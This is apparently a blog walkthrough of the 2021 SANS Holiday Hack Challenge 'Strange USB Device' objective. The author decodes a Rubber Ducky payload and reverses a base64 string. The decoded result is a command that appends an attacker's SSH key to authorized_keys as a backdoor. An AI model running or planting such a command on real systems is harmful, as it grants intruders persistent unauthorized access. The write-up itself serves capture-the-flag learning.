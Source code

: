 ```yaml
---
layout: post
title:  "5 - Strange USB Device"
date:   2021-12-13 02:00:39 -0800
categories: kringlecon2021 objective5 main
---
```


This is challenge number 5 in the 2021 SANS Holiday Hack Challenge (https://2021.kringlecon.com/). Objective:

>Assist the elves in reverse engineering the strange USB device. Visit Santa's Talks Floor and hit up Jewel Loggins for advice.

We start by logging onto the terminal on the Talks floor. We see that we need to find the username of the troll involved with this attack, and it tells us that the strange USB device has been mounted at /mnt/USBDEVICE

![Objective5 terminal](/assets/kringlecon2021/objective5/objective5_terminal.jpg)


If we take a peek of the inject.bin, we find a bunch of unreadable binary characters


![Objective5 injectbin](/assets/kringlecon2021/objective5/objective5_injectbin.jpg)


We also find a reference to a file called mallard.py. If we do a google search for this script we learn that this is a Ducky script decoder (https://github.com/dagonis/Mallard). So what is Ducky? Further research leads us to determine that (https://docs.hak5.org/hc/en-us/categories/360000982554-USB-Rubber-Ducky)

>Ducky is a keystroke injection tool disguised as a generic flash drive. Computers recognize it as a regular keyboard and automatically accept its pre-programmed keystroke payloads at over 1000 words per minute.

So putting 2 and 2 together, the inject.bin must be a ducky script, and they want us to decode that script using mallard.py. Let's do that!


{% highlight shell %}
python3 mallard.py -f /mnt/USBDEVICE/inject.bin
{% endhighlight %}


![Objective5 mallardoutput](/assets/kringlecon2021/objective5/objective5_mallardoutput.jpg)

We find this produces a readable set of instructions that have been encoded on the USB. None of the lines point to anything that tell us what the username of the troll may be, but we can observe a base64 encoded string that gets echo'd in the script. If we decode that:

{% highlight shell %}
88665a561824:Downloads bryan$ echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d

echo 'ssh-rsa UmN5RHJZWHdrSHRodmVtaVp0d1l3U2JqZ2doRFRHTGRtT0ZzSUZNdyBUaGlzIGlzIG5vdCByZWFsbHkgYW4gU1NIIGtleSwgd2UncmUgbm90IHRoYXQgbWVhbi4gdEFKc0tSUFRQVWpHZGlMRnJhdWdST2FSaWZSaXBKcUZmUHAK ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_keys
{% endhighlight %}

Ah-hah! Here we find that the USB device was adding a backdoor SSH account for user ickymcgoop@trollfun.jackfrosttower.com. We now have our answer!


![Objective5 answer](/assets/kringlecon2021/objective5/objective5_answer.jpg)

![Objective5 complete](/assets/kringlecon2021/objective5/objective5_complete.jpg)
